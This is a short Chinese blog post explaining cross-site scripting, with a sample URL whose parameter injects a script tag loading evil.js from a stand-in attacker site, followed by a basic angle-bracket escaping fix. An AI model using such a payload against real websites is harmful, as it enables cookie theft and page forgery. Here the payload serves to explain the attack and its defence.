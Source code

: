 ```yaml
---
layout: post
title:  "Javascript 跨站脚本攻击"
date:   2018-06-05 17:24:02 +0800
categories: Javascript XSS
---
```

# Javascript 权威指南 跨站脚本攻击 XSS

跨站脚本攻击 XSS 是涉及到跨网站进行攻击或者窃取信息的一种方式。
比如 A 网站存在 一种 URL 如下
http://siteA/default.aspx?name=%3Cscript src=siteb/evil.js%3E%3C/script%3E

如果网站 拥有者 在写代码的时候 直接把 name 取值 并输出到 页面中，这时候这个链接的效果 就是 在 siteA 的这个页面中包含了这样一段代码 
```html
<script src=siteb/evil.js></script>
```

直接调用了 b 站控制的脚本，脚本里 可做的文章就多了去了。偷取 cookie  伪造页面 执行 乱七八糟的代码 等等。 

通常防止 XSS 攻击的方法是 在使用任何不可信的来源数据 添加到动态文档之前，要进行过滤。 可以通过 正则来进行移除 字符串里非法代码 如下
```html
<script>
    str = str.replace(/</g,"&lt;").replace(/>/g,"&gt;")
    // 这可以移除掉 两端的尖括号

</script>
```
BTW，楼主 10年做的网站前被某机构扫描出了 XSS 漏洞，当时没办法 限制了 参数字符串长度 也算是蒙着解决了问题。







待续...





 

 



[jekyll-docs]: https://jekyllrb.com/docs/home
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-talk]: https://talk.jekyllrb.com/
